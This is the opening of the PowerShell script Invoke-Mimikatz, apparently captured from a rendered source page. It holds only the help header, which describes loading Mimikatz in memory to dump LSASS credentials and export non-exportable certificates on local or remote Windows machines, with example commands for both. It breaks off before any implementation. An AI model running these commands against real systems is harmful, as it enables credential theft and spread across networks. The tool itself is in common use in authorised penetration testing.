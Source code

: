 function Invoke-Mimikatz
{
<#
.SYNOPSIS
This script loads Mimikatz completely in memory.

.DESCRIPTION

This script leverages Mimikatz 2.1.1 and Invoke-ReflectivePEInjection to reflectively load Mimikatz completely in memory. This allows you to do things such as
dump credentials without ever writing the mimikatz binary to disk. 
The script has a ComputerName parameter which allows it to be executed against multiple computers using PowerShell remoting.

This script should be able to dump credentials from any version of Windows through Windows 8.1 that has PowerShell v2 or higher installed.

Reflectively loads Mimikatz 2.1.1 in memory using PowerShell. Can be used to dump credentials without writing anything to disk. Can be used for any 
functionality provided with Mimikatz.

The script, in near future, will provide additional commands for a variety of attacks possible with Mimikatz.

Function: Invoke-Mimikatz
Author: Joe Bialek, Twitter: @JosephBialek
Mimikatz Author: Benjamin DELPY `gentilkiwi`. Blog: http://blog.gentilkiwi.com. Email: benjamin@gentilkiwi.com. Twitter @gentilkiwi
License:  http://creativecommons.org/licenses/by/3.0/fr/
Required Dependencies: Mimikatz (included)
Optional Dependencies: None
Mimikatz version: 2.1.1 (13/08/2017)


.PARAMETER DumpCreds

Switch: Use mimikatz to dump credentials out of LSASS.

.PARAMETER DumpCerts

Switch: Use mimikatz to export all private certificates (even if they are marked non-exportable).

.PARAMETER Command

Supply mimikatz a custom command line. This works exactly the same as running the mimikatz executable like this: mimikatz "privilege::debug exit" as an example.

.PARAMETER ComputerName

Optional, an array of computernames to run the script on.
	
.EXAMPLE

Execute mimikatz on the local computer to dump certificates.
Invoke-Mimikatz -DumpCerts

.EXAMPLE

Execute mimikatz on two remote computers to dump credentials.
Invoke-Mimikatz -DumpCreds -ComputerName @("computer1", "computer2")
